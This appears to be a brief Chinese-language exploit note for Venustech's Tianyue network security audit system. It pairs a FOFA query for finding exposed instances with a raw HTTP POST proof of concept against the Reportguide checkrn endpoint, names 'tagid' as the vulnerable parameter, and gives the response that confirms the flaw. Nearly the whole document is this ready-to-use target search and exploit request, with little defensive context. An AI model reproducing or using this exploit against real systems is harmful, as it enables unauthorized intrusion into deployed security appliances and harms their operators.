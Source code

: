 <languages />

FOFA
----

    app="启明星辰-天玥网络安全审计"

POC
---

    POST /ops/index.php?c=Reportguide&a=checkrn HTTP/1.1
    Host xxx
    User-Agent: Mozilla/5.0(Macintosh;Intel Mac OS X 10.15;rv:88.0) Gecko/20100101 Firefox/88.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3en;q=0.2
    Accept-Encoding: gzip,deflate
    Upgrade-Insecure-Requests: 1
    Connection: close
    Content-Type: application/x-www-from-urlencoded
    Content-Length: 23
    checkname=123&tagid=123

漏洞参数：`tagid`

    /ops/index.php?c=Reportguide&a=checkrn&a=checkrn

如果返回以下信息，则漏洞存在

    {msg:,code:16,status:0}